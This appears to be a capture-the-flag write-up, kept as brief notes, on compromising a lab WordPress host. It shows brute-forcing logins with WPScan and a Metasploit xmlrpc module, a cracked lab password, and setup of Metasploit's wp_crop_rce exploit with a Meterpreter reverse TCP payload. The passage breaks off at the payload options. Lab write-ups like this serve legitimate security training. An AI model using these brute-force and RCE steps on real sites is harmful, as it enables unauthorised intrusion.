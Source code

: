 
Despite have read/write access, Samba turned out to be a rabbit hole.

Instead, we can bruteforce with wp-scan.

## WPScan output




## Wordpress brute forcing

Started with wpscan.
Was too slow.
Moved to msfconsole.
Used auxiliary/webapps/login.

```
msf5 auxiliary(scanner/http/wordpress_xmlrpc_login) >
```

Using previously enumerated users: bjoel, kwhell.
Bruteforced with rockyou.txt.
`bjoel` didn't complete, gave up, tried `kwheel`.

```shell
[+] 10.10.220.183:80 - Success: 'kwheel:cutiepie1'
```
## Admin panel access

Logged in as `kwheel`.
User is not privileged.
Perhaps can find some upload RCE.

`kwheel` has some wierd post in drafts.

```
jiXvfuIpdw
```

## Metasploit WP Image-Crop RCE

Tried to manually exploit image upload, but sanitized too well on WP.
Metasploit has an exploit for image upload RCE bypass.

```shell
msf5 exploit(multi/http/wp_crop_rce) >
```

```
Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```